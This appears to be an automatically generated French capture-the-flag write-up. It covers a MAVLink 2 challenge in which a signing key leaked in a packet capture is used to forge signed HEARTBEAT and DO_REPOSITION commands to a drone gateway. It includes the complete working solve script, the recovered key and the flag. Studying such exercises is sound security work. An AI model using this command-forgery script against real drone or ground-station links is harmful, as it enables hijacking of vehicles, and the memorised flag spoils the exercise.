



# Writeup : chronos-severed-link

Catégorie : misc

Date de résolution : 2026-11-07

Technique principale : MAVLink2 signing / key disclosure

Outils observés : tshark, Python socket, SHA-256

Cible : w01.ctf.chronos-security.ro:38413

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-severed-link. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

# Severed Link :  #9127

1. Le PCAP montre MAVLink 2 signé et une rotation de clé transmise sur le même lien.
2. Le message vendor MAVLink #256 à t=18 s contient la nouvelle clé en clair.
3. Clé récupérée: `8f2b4e71a6c3d05f9217bc84e63a1d57f0482c6b9e13a7d5c84f26019bd3ea60`.
4. La station opérateur utilise sysid 255, compid 190; le message #75 est COMMAND_INT.
5. Le payload capturé commande `MAV_CMD_DO_REPOSITION` (192) vers les coordonnées/altitude du replay légitime.
6. Le gateway refuse les frames rejouées et exige un timestamp de signature actuel.
7. `solve.py` construit une nouvelle signature MAVLink 2 et transmet d’abord HEARTBEAT signé.
8. Il renvoie ensuite le COMMAND_INT DO_REPOSITION avec séquence fraîche.
9. La passerelle confirme " Reposition accepted " et affiche le reçu.
10. CTFd a répondu `status: correct` à la soumission.

FLAG: `CSCTF{EJlKXZ4WOkd5WmqKl0Mz53Wk}`

### Exploitation

signed HEARTBEAT then fresh signed COMMAND_INT DO_REPOSITION

### Pièges

gateway requires heartbeat before command; replayed signing timestamp rejected

### Notes locales conservées

# Severed Link (#9127) :  solution

1. `mission.pcap` / `mission.tlog` analysés. Message MAVLink 2 ID 256 à 18.0004s transportait la clé de signature actuelle en clair.
2. Clé: `8f2b4e71a6c3d05f9217bc84e63a1d57f0482c6b9e13a7d5c84f26019bd3ea60`.
3. Source opérateur sysid=255, compid=190. Captured msg ID 75 (COMMAND_INT) a cmd=192 / DO_REPOSITION, x=457920000, y=241510000, z=85.0; replay refusé par freshness check.
4. Instance assignée: `w01.ctf.chronos-security.ro:38413` (IP 34.178.84.16). Gateway exige signed HEARTBEAT avant la commande.
5. `solve.py`: construit MAVLink2 signed heartbeat (CRC extra 50) puis COMMAND_INT (CRC extra 158), link_id=0, frais timestamp 10us depuis 2015-01-01, digest `SHA256(key || frame || link_id || timestamp)[:6]`.
6. Réponse observée: `OPERATOR AUTHENTICATED. Reposition accepted.` puis audit receipt `CSCTF{EJlKXZ4WOkd5WmqKl0Mz53Wk}`.
7. Soumission CTFd #9127: `status=correct`, `message=Correct`.

## Journal
8. 2026-11-07T13:42:36Z unknown : Flag confirmé par audit receipt après heartbeat + COMMAND_INT signé; soumission CTFd status correct.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-severed-link
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
import socket,hashlib,struct,datetime,time
host='34.178.84.16'; port=38413
key=bytes.fromhex('8f2b4e71a6c3d05f9217bc84e63a1d57f0482c6b9e13a7d5c84f26019bd3ea60')
s=socket.create_connection((host,port),timeout=3); s.settimeout(.4)
# Drain gateway greeting and recover its signed frames.
data=b''
try:
 while True:
  x=s.recv(4096)
  if not x: break
  data+=x
except socket.timeout: pass
# Send a signed GCS HEARTBEAT, then the captured DO_REPOSITION command with fresh timestamp.
def acc(crc,b):
 t=b^(crc&255); t^=(t<<4)&255
 return ((crc>>8)^(t<<8)^(t<<3)^(t>>4))&65535
def make(msgid,payload,extra,seq):
 header=bytes([len(payload),1,0,seq,255,190,msgid&255,(msgid>>8)&255,(msgid>>16)&255])
 crc=0xffff
 for b in header+payload+bytes([extra]): crc=acc(crc,b)
 checksum=struct.pack('<H',crc)
 ts=int((datetime.datetime.now(datetime.timezone.utc)-datetime.datetime(2015,1,1,tzinfo=datetime.timezone.utc)).total_seconds()*100000)
 prefix=bytes([0])+ts.to_bytes(6,'little')
 core=b'\xfd'+header+payload+checksum
 return core+prefix+hashlib.sha256(key+core+prefix).digest()[:6]
heartbeat=bytes([6,8,0,0,0,0,4,3,0])
s.sendall(make(0,heartbeat,50,1)); time.sleep(.1)
cmd=bytes.fromhex('000080bf0000803f0000000000000000004e4b1b7026650e0000aa42c000010105')
frame=make(75,cmd,158,2)
s.sendall(frame)
res=b''
try:
 while True:
  x=s.recv(4096)
  if not x: break
  res+=x
except socket.timeout: pass
print('greeting',data.hex())
print('sent',frame.hex())
print('response',res.hex())
# text from STATUSTEXT payloads
pos=0
while True:
 i=res.find(b'\xfd',pos)
 if i<0 or i+10>len(res): break
 ln=res[i+1]; mid=int.from_bytes(res[i+7:i+10],'little'); end=i+10+ln+2+(13 if res[i+2]&1 else 0)
 if end>len(res): break
 if mid==253: print('STATUSTEXT:',res[i+10+1:i+10+ln].split(b'\0')[0].decode(errors='replace'))
 pos=end
s.close()
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{EJlKXZ4WOkd5WmqKl0Mz53Wk}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
